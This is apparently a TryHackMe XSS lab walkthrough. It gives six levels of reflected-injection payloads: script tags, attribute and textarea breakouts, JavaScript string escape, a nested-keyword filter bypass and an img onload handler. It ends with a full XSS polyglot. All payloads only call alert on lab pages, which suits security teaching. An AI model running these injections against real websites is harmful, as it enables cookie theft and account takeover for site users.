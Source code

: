 # XSS
From THM XSS Labs

https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4

# Script Page

The aim for each level will be to execute the JavaScript alert function with the string **XXXTESTXXX.**

```bash
<script>alert('XXXTESTXXX');</script>
```

## **Level One:**

If you view the Page Source, You'll see your name reflected in the code:

```jsx
<div class="text-center">
	<h2>hello, tester</h2>
</div>
```

Instead of entering your name, we're going to try entering the following JavaScript Payload:

`**Try entering the payload:**`

```bash
<script>alert('XXXTESTXXX');</script>
```

Now, when you click the enter button, you'll get an alert popup with the string **XXXTESTXXX,** and the page source will look like the following:

```jsx
<div class="text-center">
	<h2>hello, <script>alert('**XXXTESTXXX**');</script></h2>
</div>
```

Then, you'll receive a confirmation message that your payload was successful.

## **Level Two:**

Like the previous level, you're being asked again to enter your name. This time, when clicking enter, your name is reflected in an input tag instead:

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

```jsx
<div class="text-center">
	<h2>Hello, <input value="tester"></h2>
</div>
```

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we must escape the input tag first so the payload can run properly. You can do this with the following payload.

`**Try entering the payload:**`

```bash
"><script>alert('XXXTESTXXX');</script>
```

The critical part of the payload is the **`">`,** which closes the value parameter and the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

`**Try entering the payload:**`

```jsx
<div class="text-center">
	<h2>Hello, <input value=""><script>alert('XXXTESTXXX');</script>"></h2>
</div>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Three:**

You're presented with another form asking for your name. As in the previous level, your name is reflected inside an HTML tag, this time, the text area tag.

We'll have to escape the text area tag a little differently from the input one (in Level Two) by using the following payload:

`**Try entering the payload:**`

```bash
</textarea><script>alert('XXXTESTXXX');</script>
```

This turns this:

```jsx
<div class="text-center">
	<h2>Hello, <textarea>tester</textarea></h2>
</div>
```

Into This:

```jsx
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert('XXTESTXX');</script></textarea></h2>
</div>
```

The critical part of the above payload is **`</textarea>`**, which causes the textarea element to close so the script will run.

An alert popup with “**XXXTESTXXX**” will appear when you click the enter button. 

## **Level Four:**

Entering your name into the form will reflect it on the page. This level looks similar to level one, but upon inspecting the page source, you'll see that your name is reflected in some JavaScript code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='tester';
</script>
```

You'll have to escape the existing JavaScript command so you're able to run your code; you can do this with the following payload :

`**Try entering the payload:**`

```bash
';alert('XXXTESTXXX');//
```

 The screenshot below shows that you will execute your code. The **`'`** closes the field specifying the name, then**`;`** signifies the end of the current command, and the **`//`** at the end makes anything after it a comment rather than executable code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('XXXTESTXXX');//';
</script>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Five:**

This level looks the same as level one, and your name is reflected in the same place. But if you try the **`<script>alert('`XXXTESTXXX`');</script>`** payload, it won't work. When you view the page source, you'll see why.

```jsx
<div class="text-center">
	<h2>Hello, <>alert('XXXTESTXXX');</></h2>
</div>
```

The word **`script`** is removed from your payload because a filter strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original Payload:**

```bash
<sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

**Text to be removed (by the filter):**

```bash
<sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

**Final Payload (after passing the filter):**

```bash
<script>alert('XXXTESTXXX');</script>
```

 `**Try entering the payload:**`

```bash
 <sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

 When you click the enter button, an alert popup with “XXXTESTXX” will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Six:**

Similar to level two, where we had to escape from the value attribute of an input tag, we can try:

```bash
"><script>alert('XXXTESTXXX');</script>
```

**But that doesn't work. Let's inspect the page source to see why that doesn't work.

```jsx
<div class="text-center">
		<h2>Your Picture</h2>
		<img src=""scriptalert('XXXTESTXXX');/script">
</div>
```

You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes your chosen code once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

`**Try entering the payload:**`

```bash
/images/cat.jpg" onload="alert('XXXTESTXXX');
```

 Then, view the page source, and you'll see how this will work.

```jsx
<div class="text-center">
	<h2>Your Picture</h2>
	<img src="/images/cat.jpg" onload="alert('XXXTESTXXX');">
</div>
```

When you click the enter button, an alert popup with the “XXXTESTXX” string will appear.

## **Polyglots:**

An XSS polyglot is a string of text that can escape attributes and tags and bypass filters. You could have used the polyglot below on all six levels you've just completed, and it would have executed the code successfully.

`**Try entering the payload:**`

```jsx
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XXXTESTXXX') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXXTESTXXX')//>\x3e
```

---

[https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4](https://www.notion.so/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=21)
